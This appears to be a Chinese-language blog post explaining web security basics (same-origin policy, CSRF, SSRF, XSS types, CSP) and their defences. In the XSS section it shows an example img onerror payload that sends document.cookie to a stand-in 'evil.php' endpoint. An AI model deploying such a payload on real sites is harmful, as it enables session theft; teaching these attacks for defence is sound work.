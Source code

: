 ```yaml
---
title: web security
date: 2020-06-15 17:05:45
tags: Web
---
```


# 同源协议（SOP)
所谓的同源协议，就是阻止程序员访问第三方数据的一种手段，对浏览器本身是没有任何的影响。换句话说，图片该显示显示，但你无法获取到它的二进制，iframe该展示展示，但你获取不到它的节点，ajax该读取读取，但你获取不到它的响应文。

同源协议可以
* 跨域写操作
* 跨域嵌入操作
不可以
* 跨域读操作

# CSRF

（Cross-site request forgery）跨站请求伪造，是一种常见的攻击方式。是指 A 网站正常登陆后，cookie 正常保存，其他网站 B 通过某种方式调用 A 网站接口进行操作，A 的接口在请求时会自动带上 cookie。
上面说了，SOP 可以通过 html tag 加载资源，而且 SOP 不阻止接口请求而是拦截请求结果，CSRF 恰恰占了这两个便宜。

```

// 使用xhr请求会受到sop限制，不会带上cookie
 <script>
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {//服务器返回值的处理函数，此处使用匿名函数进行实现
            if (xhr.readyState == 4 && xhr.status == 200) {//
                var responseText = xhr.responseText;
                document.getElementById('result').innerHTML = responseText;
            }
        };
        xhr.open("GET", "http://dummy.restapiexample.com/api/v1/employees", true);//提交get请求到服务器
        xhr.send(null);
    </script>

  // 使用img的tag请求会带上cookie
    <img src="http://dummy.restapiexample.com/api/v1/employees"/>
```

- CSRF自动防御策略：同源检测（Origin 和 Referer 验证）。
- CSRF主动防御措施：Token验证 或者 双重Cookie验证 以及配合Samesite Cookie。
- 保证页面的幂等性，后端接口不要在GET页面中做用户操作。

![](/images/web_security/same_site.png)

# SSRF

SRF，服务器端请求伪造，服务器请求伪造，是由攻击者构造的漏洞，用于形成服务器发起的请求。通常，SSRF攻击的目标是外部网络无法访问的内部系统。

# XSS

XSS 跨站脚本攻击，用户注入恶意的代码，浏览器和服务器没有对用户的输入进行过滤，导致用户注入的脚本嵌入到了页面中。由于浏览器无法识别这些恶意代码正常解析执行，攻击者的恶意操作被成功执行，比如可以获取用户的cookie数据然后发送给自己或者冒充正常用户向被攻击的服务器发送请求。


xss攻击分类

* 反射型：攻击者构造一个带有恶意代码的url链接诱导正常用户点击，服务器接收到这个url对应的请求读取出其中的参数然后没有做过滤就拼接到Html页面发送给浏览器，浏览器解析执行
* 存储型： 攻击者将带有恶意代码的内容发送给服务器（比如在论坛上发帖），服务器没有做过滤就将内容存储到数据库中，下次再请求这个页面的时候服务器从数据库中读取出相关的内容拼接到html上，浏览器收到之后解析执行
* dom型：dom型xss主要和前端js有关，是前端js获取到用户的输入没有进行过滤然后拼接到html中

XSS防御：

对于XSS攻击来说，通常有两种方式来进行防御。

1、转义字符；
2、CSP安全内容策略：CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。
通常可以通过两种方式来开启 CSP：

* 设置 HTTP Header 中的 Content-Security-Policy
* 设置 meta 标签的方式

利用错误信息和搜索结果的反射进行的 XSS，称为反射型 XSS
盗取用户 cookie，例如插入这样一段代码
```
<img
  src="xx"
  onerror="post('../evil.php?cakemonster=' + escape(document.cookie))"
/>
```

还有另一种 XSS 是储存型 XSS。储存型也比较容易理解，攻击者把恶意脚本提交到被害服务器，并成功储存，所有人访问特定页面都会遭到攻击。

总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

# Content Security Policy

CSP 诞生的主要目的就是防御 XSS 攻击. 严格的 CSP 在 XSS 的防范中可以起到以下的作用：
* 禁止加载外域代码，防止复杂的攻击逻辑。
* 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
* 禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。
* 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
* 合理使用上报可以及时发现 XSS，利于尽快修复问题。

CSP doesn't (and can't) prevent CSRF. Even if you forbid all scripts from executing, CSRF attacks are still possible if no per-request tokens are used